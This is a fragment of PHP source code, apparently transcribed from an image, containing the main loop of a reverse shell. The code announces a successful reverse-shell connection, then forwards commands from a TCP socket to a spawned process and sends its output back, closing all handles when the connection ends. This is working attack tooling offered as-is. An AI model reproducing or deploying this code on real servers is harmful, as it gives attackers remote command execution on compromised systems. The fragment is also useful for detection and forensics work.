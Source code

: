 ```php

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
```